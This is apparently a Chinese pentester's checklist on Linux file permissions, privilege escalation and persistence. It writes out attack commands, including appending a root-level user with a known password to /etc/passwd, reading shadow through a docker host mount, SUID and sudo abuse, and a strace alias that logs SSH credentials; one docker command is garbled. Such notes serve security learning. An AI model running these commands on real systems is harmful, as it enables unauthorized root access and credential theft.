 持久化 - Linux
========================================

什么是权限
----------------------------------------
在Linux 系统中， ``ls -al`` 即可查看列出文件所属的权限。这里我用kali 系统来演示。

::

	……
	drwxr-xr-x  2 kali kali    4096 Jan 27 12:52 Downloads
	-rw-r--r--  1 root root     903 Jun 14 11:33 exp.html
	-rw-r--r--  1 root root  153600 May  5 09:42 flag
	lrwxrwxrwx  1 kali kali      28 May 14 08:28 flagg -> /proc/self/cwd/flag/flag.jpg
	-rw-r--r--  1 kali kali     188 May 14 08:29 flagg.zip
	-rw-r--r--  1 root root 1807342 Apr 20 06:52 get-pip.py
	drwx------  3 kali kali    4096 Jun 18 21:35 .gnupg
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt
	-rw-r--r--  1 root root   12396 Jun 11 00:13 hydra.restore
	-rw-------  1 kali kali    5202 Jun 18 21:35 .ICEauthority
	-rw-r--r--  1 root root    2046 Jun 10 22:58 jim_pass.txt
	……

::

	例如：
	-rw-r--r--  1 root root      56 Jun 16 23:29 hash.txt

- 第一位
	| ``-`` :代表普通文件
	| ``d`` :代表目录
	| ``l`` :代表软链接
	| ``b`` :代表块文件
	| ``c`` :代表字符设备
- 第二及后面几位,分别三个为一组
	| ``rw-r--r--`` 代表文件所属的权限,r:文件可读。w:文件可修改。-:表示暂时没有其他权限。x:表示可执行
	| ``rw-`` 表示文件所拥有者的权限
	| ``r--`` 表示文件所在组的用户的权限
	| ``r--`` 表示其他组的用户的权限。
- 第二组数据 ``1`` 
	| 如果文件类型为目录，表示目录下的字目录个数
	| 如果文件类型是普通文件，这个数据就表示这个文件的硬链接个数
- 第三组数据 ``root`` ,表示该文件所有者为root用户
- 第四组数据 ``root`` ,表示该文件所在组为root组
- 第五组数据 ``56`` ,表示文件的大小为多少字节。如果为一个目录，则为 ``4096`` 。
- 第六组数据表示最后一次修改时间
- 第七组数据表示文件名称


权限提升
----------------------------------------
- linux exploit suggester（kernel<3.4.4）
- 明文root密码/密码复用
- 可写入的/etc/passwd文件提权
	- 查询写入权限：ls -al /etc/passwd
	- 写入：echo 'Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash' >> /etc/passwd
	- 密码为：Password@973
	- su Tom
	- mkpasswd -m des生成用户密码。
- 脏牛漏洞本地提权
- 内核漏洞利用
	- 搜索特定系统和内核版本利用漏洞
		- searchsploit linux kernel 3.2 
		- searchsploit centos 7 kernel 3.10
	- 搜索漏洞利用文件路径
		- searchsploit -p 37951.py
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
	- ``find / -perm -4000 -ls``
	- ``find / -perm -u=s -type f 2>/dev/null``
	- ``find / -user root -perm -4000 -print 2>/dev/null``
	- ``find / -user root -perm -4000 -exec ls -ldb {} \;``
    - 常用的提权文件：Nmap，Vim，find，Bash，More，Less，Nano，cp
- 利用可用的root权限
    - ``sudo -l``
	::
	
		[root@localhost ~]# su - tom    ##切换用户
		[tom@localhost ~]$ sudo -l    ##查看此用户拥有的特殊权限
		We trust you have received the usual lecture from the local System
		Administrator. It usually boils down to these three things:
			#1) Respect the privacy of others.
			#2) Think before you type.
			#3) With great power comes great responsibility.
		[sudo] password for tom:     ##这里需要验证密码，以保证是用户本人执行操作
		Matching Defaults entries for tom on this host:
			requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
			INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
			env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
			LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
			_XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
		User tom may run the following commands on this host:
			(root) /usr/sbin/useradd    ##可以以root身份，使用useradd命令
			
		[tom@localhost ~]$ sudo /usr/sbin/useradd test1    ##添加用户test1
		[tom@localhost ~]$ tail -1 /etc/passwd
		test1:x:501:501::/home/test1:/bin/bash        ##添加成功
- crontab计划任务
- docker提权
    - docker images命令查看已经存在的镜像
    - 没有的话就pull一个
	- docker pull alpine
    - 已经存在的images
	- docker run -it --rm xxx /bin/bash    #常规使用
	- docker run -it --rm xxx /bin/sh    #常规使用
	- docker run -it --rm -v /etc:/etc xxx /bin/bash    #异常使用
	- docker run -it --rm -v /etc:/etc xxx /bin/sh    #异常使用
    - 挂载目录到docker镜像内
	- docker run -v /:/mnt  -it alpine
	- docker run -v /etc/:/mnt -it alpinecd /mntcat shadow
    
- 其它
    - ``https://github.com/SecWiki/linux-kernel-exploits``

持久化
----------------------------------------
- 反弹shell
- suid shell
- icmp后门
- sshd wrapper
- sshd软链接后门
- port knocking
- pam后门
- webshell
- rootkit
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
